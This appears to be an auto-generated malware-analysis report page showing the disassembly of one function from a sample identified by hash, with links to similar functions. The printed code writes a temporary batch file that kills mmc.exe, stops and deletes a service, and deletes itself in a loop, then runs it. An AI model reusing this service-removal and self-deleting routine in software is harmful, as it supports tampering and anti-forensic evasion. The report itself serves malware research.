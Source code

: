 ```yaml
---
layout: post
title:  "fcn.00403389 @ 73677cb40830e94fbfb5483ff33e40b9"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00403389
- **Origin (md5):** 73677cb40830e94fbfb5483ff33e40b9
- **VirusTotal:** [virustotal.com/gui/file/73677cb40830e94fbfb5483ff33e40b9][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="PROCESS">PROCESS</span>


# Similar Functions

1. [fcn.00402d24][similar_1_ref] (sim.: 0.9030836663591518)
2. [entry0][similar_2_ref] (sim.: 0.8922105554101747)
3. [fcn.004039f4][similar_3_ref] (sim.: 0.8913476938177775)
4. [fcn.004168f8][similar_4_ref] (sim.: 0.886570564648532)
5. [fcn.004168f8][similar_5_ref] (sim.: 0.886570564648532)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x7cc
push ebx
push esi
push edi
xor ebx,ebx
push 0x30b
lea eax,[ebp-0x7cb]
push ebx
push eax
mov byte[ebp-0x7cc],bl
call fcn.0040394e
add esp,0xc
cmp dword[ebp+8],ebx
je 0x4033d1
push dword[ebp+8]
lea eax,[ebp-0x7cc]
push dword[ebp+8]
push str.taskkill__IM_mmc.exe__F_r_nsc_stop___s__r_nsc_delete___s__r_n
push eax
call fcn.00403866
add esp,0x10
push 0x15
pop ecx
mov esi,str.:Repeat_r_n_sdel__Q___s__r_nif_exist___s__goto_Repeat_r_ndel___0_r_nif_exist___0_goto_Repeat
lea edi,[ebp-0x6c]
rep movsd dword es:[edi],dword ptr[esi]
lea eax,[ebp-0x4c0]
movsb byte es:[edi],byte ptr[esi]
push eax
mov esi,0x104
push esi
call dword[sym.imp.KERNEL32.dll_GetTempPathA]
lea eax,[ebp-0x3bc]
push eax
push ebx
push 0x4085e7
lea eax,[ebp-0x4c0]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameA]
lea eax,[ebp-0x3bc]
push eax
lea eax,[ebp-0x1b4]
push eax
call dword[sym.imp.KERNEL32.dll_lstrcpyA]
push str..bat
lea eax,[ebp-0x1b4]
push eax
call dword[sym.imp.KERNEL32.dll_lstrcatA]
lea eax,[ebp-0x3bc]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileA]
push esi
lea eax,[ebp-0x2b8]
push eax
push ebx
call dword[sym.imp.KERNEL32.dll_GetModuleFileNameA]
push ebx
push 0x80
push 2
push ebx
push ebx
push 0x40000000
lea eax,[ebp-0x1b4]
push eax
call dword[sym.imp.KERNEL32.dll_CreateFileA]
cmp eax,0xffffffff
mov dword[ebp+8],eax
je 0x40350f
mov esi,dword[sym.imp.KERNEL32.dll_lstrlenA]
lea eax,[ebp-0x6c]
push eax
call esi
mov edi,eax
lea eax,[ebp-0x7cc]
push eax
call esi
lea eax,[edi+eax+0x21c]
push eax
call fcn.00403760
mov edi,eax
lea eax,[ebp-0x2b8]
push eax
push eax
lea eax,[ebp-0x7cc]
push eax
lea eax,[ebp-0x6c]
push eax
push edi
call fcn.00403866
add esp,0x18
push ebx
lea eax,[ebp-4]
push eax
push edi
call esi
push eax
push edi
push dword[ebp+8]
call dword[sym.imp.KERNEL32.dll_WriteFile]
push dword[ebp+8]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
push edi
call main
push 0x44
lea eax,[ebp-0xb0]
push ebx
push eax
call fcn.0040394e
add esp,0x10
lea eax,[ebp-0x14]
push eax
lea eax,[ebp-0xb0]
push eax
push ebx
push ebx
push 0x8000000
push ebx
push ebx
push ebx
push ebx
lea eax,[ebp-0x1b4]
push eax
call dword[sym.imp.KERNEL32.dll_CreateProcessA]
pop edi
pop esi
pop ebx
leave 
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.00402d24@1123b7aa5760238fe93045e585b8234c
[similar_2_ref]: /report/entry0@7b8f4ef4fb1f8ad81aca09da2f992561
[similar_3_ref]: /report/fcn.004039f4@0cb2d61ee2bb08c35289961542a08513
[similar_4_ref]: /report/fcn.004168f8@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_5_ref]: /report/fcn.004168f8@53687e619dcac7d709f306d061d8daeb
[virustotal_ref]: https://www.virustotal.com/gui/file/73677cb40830e94fbfb5483ff33e40b9